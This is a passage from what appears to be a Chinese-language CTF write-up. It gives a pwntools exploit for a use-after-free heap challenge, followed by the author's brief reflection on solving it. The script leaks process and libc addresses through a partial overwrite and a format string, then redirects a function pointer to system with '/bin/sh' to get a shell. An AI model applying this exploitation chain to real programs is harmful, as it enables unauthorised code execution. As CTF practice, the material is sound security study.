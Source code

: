 ```python
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
delete(1)  # -> call _puts
sh.recvuntil(b"b"*0x08)
proc_base = u64(sh.recvline()[:-1].ljust(8, b'\x00')) - 0x147C
print(hex(proc_base))
printf = proc_base + 0x150E
delete(0)

create(0x20, b'Nova%17$pNoir' + b'b'*(0x18-len(b'Nova%17$pNoir')) + p64(printf))
delete(1)
sh.recvuntil(b"Nova")

printf_addr = sh.recvuntil(b"Noir", drop=True)
printf_addr = int(printf_addr, 16) - 153
libc_base = printf_addr - 0x55810
system_addr = libc_base + 0x453a0
print(">>>", hex(printf_addr))
sh.sendline(b"")
sh.sendline(b"")

delete(0)
create(0x20, b'/bin/sh;' + b'b'*(0x18-len(b'/bin/sh;')) + p64(system_addr))
delete(1)
sh.interactive()

```

# 总结

算是第一个比较综合的`UAF`的题，搞了六七个小时，期间去看了那个`DynELF`的用法，调了很久的`movaps`，但是最后都没出来，然后还是用了比较常规的方法捏。最后打出来了，可喜可贺可喜可贺


